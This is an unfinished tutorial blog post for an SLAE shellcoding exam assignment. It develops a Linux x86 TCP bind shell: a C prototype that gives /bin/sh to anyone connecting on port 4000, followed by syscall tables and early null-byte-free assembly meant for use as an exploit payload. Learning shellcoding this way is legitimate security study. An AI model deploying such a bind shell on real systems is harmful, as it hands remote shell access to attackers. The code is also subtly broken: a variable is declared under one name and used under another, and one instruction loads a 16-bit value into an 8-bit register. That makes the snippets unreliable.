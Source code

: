 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```

... page still under construction ...  

## Assignment 01 ##

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Prototype ##

To get idea how bind shell works and which syscalls are used/needed, we can create prototye of bind shell code in C.  

```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Once application is compiled (with: gcc bind.c) and run (./a.out), we can confirm with netstat (netstat -antvp) and netcat (nc -v 127.0.0.1 4000) 
that application is indeed listening at port 4000 and provides shell to whoever connects to listening port as shown on following screenshot.
![bind shell](https://smarinovic.github.io/assets/img/slae_00001.png)

## Syscalls ##

Based on prototype code above, we can conclude that following syscalls are needed to implement bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls, their call numbers can be found in: unistd_32.h. On Kali 2019.4 linux file is located on following location: 
```
/usr/include/x86_64-linux-gnu/asm/unistd_32.h
```

```
Syscall                Dec   Hex
----------------------------------
#define __NR_socket    359   0x167
#define __NR_bind      361   0x169
#define __NR_listen    363   0x16B
#define __NR_accept4   364   0x16C
#define __NR_dup2      63    0x3F
#define __NR_execve    11    0xB
```

Each syscall and its arguments are defined in man 2 pages in form of C function. In order to find out which argments are needed we need to look at man pages. 
Based on man 2 pages for socket syscall (```man 2 socket```) we can see the three arguments that need to be passed to syscall.

```
int socket(int domain, int type, int protocol);
// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
```

Arguments are passed via registers in following order; EAX, EBX, ECX, EDX, ESI, EDI. EAX always contains syscall number (in case of socket it is decimal 359 or hex 0x167). 
The domain, type and protocol would need to be passed in EBX, ECX and EDX registers.

If we look at prototype code: 
```
socket(AF_INET, SOCK_STREAM, 6);
``` 
We can see that 
* __ domain __ is set to AF_INET which is eaqual to "2"
* __ type __ is set to SOCK_STREAM which is eaqual to "1" and
* __ protocol __ is set to 6 (IPPROTO_TCP)

Before we can move any value to register we need to se registers to zero. The easiest way to to it without null bytes is to preform XOR operation on register.

```
; Clearing registers
XOR EAX, EAX    ; set EAX to zero
XOR EBX, EBX    ; set EBX to zero
XOR ECX, ECX    ; set ECX to zero
XOR EDX, EDX    ; set EDX to zero
```

When registers are set to zero we can start writing assembly code to call socket syscall:

```
MOV AX, 0x167  ; 0x167 is hex syscall to socket
MOV BL, 2      ; set domain argument
MOV CL, 1      ; set type argument
MOV DL, 6      ; set protocol argument
INT 0x80       ; preforming syscall

```


Bind shell will most commonly be used in exploit which is usually delivered as payload to some network application.  
For that reason, we need to avoid null bytes, as null bytes terminates string and breaks exploit.

By using nasm_shell we can see that ```mov eax, 0x167``` generates null bytes: B86701 __ 0000 __ so we cannot simply use ```mov eax, 0x167```, instead we can use ```mov ax, 0x167```:
```
/usr/bin/msf-nasm_shell
nasm > mov eax, 0x167
00000000  B867010000        mov eax, 0x167
nasm > mov ax, 0x167
00000000  66B86701          mov ax, 0x167
nasm > 
```


```mov ah, 0x167 ; 359 (0x167) is the syscall for socket ```


.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

